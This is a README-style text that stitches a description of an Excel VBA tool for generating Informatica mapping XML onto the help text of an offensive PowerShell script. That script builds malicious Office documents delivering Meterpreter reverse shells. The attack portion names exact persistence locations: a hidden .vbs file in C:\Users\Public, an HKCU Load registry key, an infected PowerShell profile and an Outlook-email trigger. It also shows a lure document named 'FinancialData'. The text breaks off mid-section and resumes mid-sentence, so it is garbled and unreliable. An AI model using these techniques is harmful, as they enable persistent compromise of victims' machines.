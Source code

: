 SYNOPSIS

Mapping Generator Tool is a standalone macro script that will generate a XML file with metadata of Informatica Straight Move, SCD Type 1 objects which can be imported to Informatica tool to create these objects automatically.


DESCRIPTION

This script will generate XML file with metadata of Informatica objects (workflow, sources, targets, mappings and sessions). This script will prompt you for source and target database connection credentials and to select the table required to be used as source and target. From there, the script will then prompt you to choose the columns to be mapped from source to target

The mapping functionality will have two modules 
1. Straight Move (If Mapping Type is selected as "Straight Move")
2. SCD Type - 1 (If mapping type is selected as "SCD Type-1")

-----Straight Move--------







from a menu of different attacks, all with different persistence methods. Once an attack is chosen, it will then prompt you for your payload type. Currently, only HTTP and HTTPS are supported.

When naming the document, do not include a file extension.

These attacks use Invoke-Shellcode, which was created by Matt Graeber. Follow him on Twitter --> @mattifestation

ATTACK TYPES

Meterpreter Shell with Logon Persistence: 
This attack delivers a meterpreter shell and then persists in the registry by creating a hidden .vbs file in C:\Users\Public and then creates a registry key in HKCU\Software\Microsoft\Windows NT\CurrentVersion\Windows\Load that will execute the .vbs file on login.
Meterpreter Shell with PowerShell Profile Persistence: 
This attack requires the target user to have Administrator privileges but is quite creative. It will deliver you a shell and then drop a malicious .vbs file in C:\Users\Default\AppData\Roaming\Microsoft\Windows\Cookies\cookie.vbs. Once dropped, it creates an infected PowerShell Profile file in C:\Windows\SysNative\WindowsPowerShell\v1.0\ and then creates a registry key in HKCU\Software\Microsoft\Windows NT\CurrentVersion\Windows\Load that will execute Powershell.exe on startup. Since the PowerShell profile loads automatically when Powershell.exe is invoked, your code is executed automatically.
Meterpreter Shell with Microsoft Outlook Email Persistence: 
This attack will give you a shell and then download a malicious Powershell script to C:\Users\Public\. Once downloaded, it will insert your defined IP address, port, email address and trigger word. It will then create a malicious .vbs file and drop it in C:\Users\Default\AppData\Roaming\Microsoft\Windows\Cookies\. Once dropped, it creates a registry key that executes it on login. When the Powershell script is executed, it monitors the user's Outlook Inbox for an email containing the email address you specified as well as the trigger word in the subject. When it sees the email, it will delete it and send you a shell.
EXAMPLE

PS> ./Generate-Macro.ps1
Enter IP Address: 10.0.0.10
Enter Port Number: 1111
Enter the name of the document (Do not include a file extension): FinancialData

--------Select Attack---------
1. Meterpreter Shell with Logon Persistence
2. Meterpreter Shell with Powershell Profile Persistence (Requires user to be local admin)
3. Meterpreter Shell with Microsoft Outlook Email Persistence
------------------------------
Select Attack Number & Press Enter: 1

--------Select Payload---------
1. Meterpreter Reverse HTTPS
2. Meterpreter Reverse HTTP
------------------------------
Select Payload Number & Press Enter: 1
Saved to file C:\Users\Malware\Desktop\FinancialData.xls


# MappingGeneratorTool
VBScript code implementing Database and Informatica related automation tasks
automates the process of creating Straight Move, SCD Type 1 Informatica objects workflow, sources, targets, mappings and sessions with all the project standards, followed. The output of the tool is xml file, which on import to repository generates all the Informatica artifacts to the project folders. This tool helps in reducing the development time considering any number of columns. This is developed using Excel VBA.
